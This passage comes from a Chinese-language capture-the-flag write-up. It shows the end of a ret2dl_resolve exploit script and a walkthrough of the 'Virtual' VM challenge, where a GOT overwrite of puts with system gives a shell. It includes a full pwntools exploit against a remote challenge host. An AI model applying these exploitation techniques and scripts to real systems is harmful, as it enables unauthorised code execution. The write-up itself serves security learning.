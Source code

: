 ```python
buf2 += rop.dl_resolve_data(addr_bss + 20, 'system')
buf2 += rop.fill(100, buf2)
r.send(buf2)

buf3 = 'A' * 0x2c + rop.dl_resolve_call(addr_bss + 20, addr_bss)
r.send(buf3)

#gdb.attach(r)

r.interactive()
```



##	Virtual

感觉难度主要在于逆向,理解程序逻辑.

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2ap5helmoj208d0b3aa8.jpg)

首先是`store_instruction`函数将输入通过分隔符分类为各种操作符并保存在堆中,`store_num`同理.
其中三个堆块一个数据堆,一个操作符堆,一个栈(也是用来存数据的,存储操作符操作的数据).

重点就是`op`函数.

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2ap5oqogij20ea055jrc.jpg)

这里不断从操作符堆取出操作符(对应的数字),然后跳转到函数执行的地方,这里`IDA`反汇编有问题,没有识别出函数调用,实际上`i`会被赋值为函数调用的返回值.

这些函数操作栈中的数据并将结果放回栈中,所以使用数据前需要先`push`.

关键函数是`load`和`save`,知道偏移就可以任意读写.
先使用`load`泄露堆上的堆地址,由于没开`pie`,通过`-`和`/`求出`.got[puts]`和此处偏移,再次`load`泄露`libc`,处理与`system`的偏移获得`system`地址.
不过这里没办法复制保存数据,只能移动和计算,所以之前的偏移没了,通过同样操作调整一下再次获得`.got[puts]`偏移,调用`save`成功劫持`puts@plt`.
突然发现`username`作用,开始试了`/bin/sh`,`ls`,`cat flag`什么的都是`comment not found`,最后`/bin/bash`成功.(话说这是故意的还是什么鬼)

`payload`

```python
from pwn import *

#context.log_level = 'debug'
#r = process("./pwn")
r = remote("a569f7135ca8ce99c68ccedd6f3a83fd.kr-lab.com", "40003")

r.recvuntil("Your program name:\n")
r.sendline("/bin/bash")

r.recvuntil("Your instruction:\n")
payload = "push push push load push sub div sub load push add"
payload += " push push push load push sub div sub save"
#payload = "push push push load push sub div sub load pop"
r.sendline(payload)

#gdb.attach(r)

r.recvuntil("Your stack data:\n")
#payload = "-1 8 -5 4210720"
payload = "-1 8 -5 4210720 -172800 -1 8 -6 4210720"
#0x404020 = 4210720,offset = -172800,one_gadget = -173178
r.sendline(payload)

#print r.recv()

r.interactive()
```